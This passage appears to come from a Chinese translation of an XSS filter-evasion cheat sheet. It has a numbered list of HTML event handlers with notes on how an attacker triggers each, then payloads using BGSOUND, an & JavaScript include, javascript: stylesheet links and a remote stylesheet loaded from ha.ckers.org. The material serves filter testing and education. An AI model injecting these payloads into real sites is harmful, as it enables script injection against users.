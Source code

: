 ```
 89\. onRowInserted() (用户或攻击者需要向数据源中插入一行)
 90\. onScroll() (用户需要滚动,或是攻击者可以执行 scrollBy() 函数)
 91\. onSeek() (媒体播放移动到新位置)
 92\. onSelect() (用户需要去选择一些文本 - 攻击者可以自动运行利用某些方法例如 window.document.execCommand("SelectAll");)
 93\. onSelectionChange() (用户需要去选择一些文本 - 攻击者可以自动运行利用某些方法例如 window.document.execCommand("SelectAll");)
 94\. onSelectStart() (用户需要去选择一些文本 - 攻击者可以自动运行利用某些方法例如 window.document.execCommand("SelectAll");)
 95\. onStart() (当 marquee 元素循环开始时触发)
 96\. onStop() (用户需要点击停止按钮或是离开网页)
 97\. onStorage() (存储区域改变)
 98\. onSyncRestored() (user interrupts the element's ability to play its media as defined by the timeline to fire)
 99\. onSubmit() (需要攻击者或用户提交表单)
 100\. onTimeError() (用户或攻击者需要设置一个时间属性例如 dur 的值为无效的值)
 101\. onTrackChange() (用户或攻击者需要改变播放列表的轨迹)
 102\. onUndo() (user went backward in undo transaction history)
 103\. onUnload() (当用户点击一个链接或是按下回车键或是攻击者触发一个点击事件)
 104\. onURLFlip() (this event fires when an Advanced Streaming Format (ASF) file, played by a HTML+TIME (Timed Interactive Multimedia Extensions) media tag, processes script commands embedded in the ASF file)
 105\. seekSegmentTime() (this is a method that locates the specified point on the element's segment time line and begins playing from that point. The segment consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.) 
```

### BGSOUND(背景音乐)

```
<BGSOUND SRC="javascript:alert('XSS');"> 
```

### & JavaScript 包含

```
<BR SIZE="&{alert('XSS')}"> 
```

### 样式表

```
<LINK REL="stylesheet" HREF="javascript:alert('XSS');"> 
```

### 远程样式表

（通过某些方式例如最简单的远程样式表，你可以插入一个样式参数为嵌入表达式的 xss 代码）。它是仅仅工作在 IE 浏览器或是使用了 IE 渲染引擎的 Netscape 8.1+。需要注意的是页面中并没有展现出它包含了 javascript 代码。注意：所有的远程样式表示例需要至少用到 body 标签，负责将无法工作除非页面中包含除了向量本身的其他内容。因此你需要添加至少一个字母到页面确保他可以工作如果它是一个空白页面。

```
<LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css"> 
```

### 远程样式表 2
